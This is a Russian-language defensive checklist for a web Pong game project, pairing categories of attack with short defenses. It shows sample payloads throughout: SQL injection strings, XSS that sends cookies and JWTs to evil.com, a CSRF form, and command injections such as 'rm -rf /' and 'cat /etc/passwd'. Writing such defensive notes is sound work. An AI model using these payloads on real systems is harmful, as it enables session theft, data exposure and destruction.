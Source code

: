 

### Список атак, от которых нужно защищаться
1. **SQL-инъекции**:
   - Классическая SQL-инъекция через формы и API.
   - Слепая SQL-инъекция.
   - Инъекция через поиск, фильтры или турнирные данные.
   - Инъекция через API-запросы (модули Server-Side Pong, CLI).
2. **XSS (межсайтовый скриптинг)**:
   - Отраженный XSS через URL или параметры.
   - Хранимый XSS через профили, чат, имена турниров, аватары.
   - DOM-based XSS через TypeScript SPA.
   - XSS через API-ответы или кастомизацию игры.
3. **Связанные атаки**:
   - CSRF для подделки действий пользователя.
   - Небезопасная обработка ввода (формы, API, CLI, чат).
   - Атаки на API (манипуляция запросами).
   - Атаки на блокчейн (внедрение вредоносных данных).
   - Атаки на сессии (кража куки или JWT через XSS).
   - Атаки на чат (спам, вредоносные ссылки).
   - Атаки через CLI (инъекции в API).

---


#### **1. SQL-инъекции**  
**Классическая SQL-инъекция**  
```sql
-- Ввод в поле логина: ' OR '1'='1
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = '...';
```
**Слепая SQL-инъекция**  
```sql
-- Ввод: ' AND (SELECT 1 FROM users WHERE username='admin' AND SUBSTRING(password,1,1)='a')--
SELECT * FROM tournaments WHERE id = '1' AND (SELECT 1 FROM users WHERE username='admin' AND SUBSTRING(password,1,1)='a')--';
```
**Инъекция через поиск/фильтры**  
```sql
-- Ввод в поиск: ' UNION SELECT username, password FROM users--
SELECT * FROM games WHERE name LIKE '%' UNION SELECT username, password FROM users--%';
```
**Инъекция через API (Server-Side Pong)**  
```http
GET /api/game?id=1; DROP TABLE scores--
```

---

#### **2. XSS (межсайтовый скриптинг)**  
**Отраженный XSS (через URL)**  
```http
https://example.com/search?q=<script>alert('XSS')</script>
```
**Хранимый XSS (чат, профиль)**  
```javascript
// Ввод в чат:
<img src=x onerror="fetch('/steal-cookie?cookie='+document.cookie)">
```
**DOM-based XSS (SPA-приложение)**  
```javascript
// Ввод в поле:
"><svg onload="location.href='https://evil.com?data='+localStorage.token">
```
**XSS через API (кастомизация игры)**  
```json
{
  "gameSettings": "<script>alert('XSS')</script>"
}
```

---

#### **3. Связанные атаки**  
**CSRF (подделка действий)**  
```html
<!-- На другом сайте: -->
<form action="https://your-site.com/transfer" method="POST">
  <input type="hidden" name="amount" value="1000">
  <input type="hidden" name="to" value="hacker">
</form>
<script>document.forms[0].submit();</script>
```
**Небезопасная обработка ввода (CLI)**  
```bash
# Ввод в CLI:
game --join-tournament '1; rm -rf /'
```
**Атака на API (манипуляция запросами)**  
```http
PATCH /api/user/1 HTTP/1.1
{"role": "admin"}
```
**Атака на блокчейн (вредоносный контракт)**  
```solidity
// Ввод в смарт-контракт:
function withdraw() public {
    payable(msg.sender).transfer(address(this).balance);
}
```
**Кража сессии (через XSS)**  
```javascript
// Вставка в чат:
fetch('https://evil.com/log?token=' + localStorage.getItem('jwt'));
```
**Спам/фишинг в чате**  
```
Привет! Перейди по ссылке: http://fake-login.com?site=yoursite.com
```
**Атака через CLI (инъекция в API)**  
```bash
curl -X POST "https://api.example.com/game" -d '{"command":"start; cat /etc/passwd"}'
```

---

### **Защита:**  
- **SQL-инъекции** → Параметризованные запросы, ORM.  
- **XSS** → Экранирование, CSP, `DOMPurify`.  
- **CSRF** → Токены, проверка `Origin`.  
- **CLI/API-атаки** → Валидация ввода, санитизация.  
- **Блокчейн** → Аудит смарт-контрактов.  
- **Чат** → Фильтрация HTML, ограничение ссылок.  

💥☄️ 💥☄️ 💥☄️ Минимизировать использование `eval()`, `innerHTML`, конкатенации SQL и сырых API-запросов!!!!!! 💥☄️ 💥☄️ 💥☄️
